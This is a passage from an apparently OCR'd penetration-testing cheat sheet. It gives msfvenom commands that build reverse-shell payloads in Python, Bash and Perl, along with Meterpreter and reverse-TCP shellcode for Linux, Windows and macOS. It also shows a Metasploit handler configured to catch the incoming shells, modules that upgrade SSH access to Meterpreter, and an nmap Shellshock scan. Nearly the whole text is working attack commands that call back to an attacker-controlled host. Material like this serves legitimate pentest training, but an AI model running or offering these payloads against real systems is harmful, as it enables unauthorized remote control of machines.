       **Scripting Payloads**

      *Python*

      `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

      *Bash*

      `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

      *Perl*

      `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

      **Shellcode**

      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

      *Linux Based Shellcode*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      *Windows Based Shellcode*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      *Mac Based Shellcode*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z

      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

-   SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

-   Shellshock

    -   Testing for shell shock with NMap

    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`
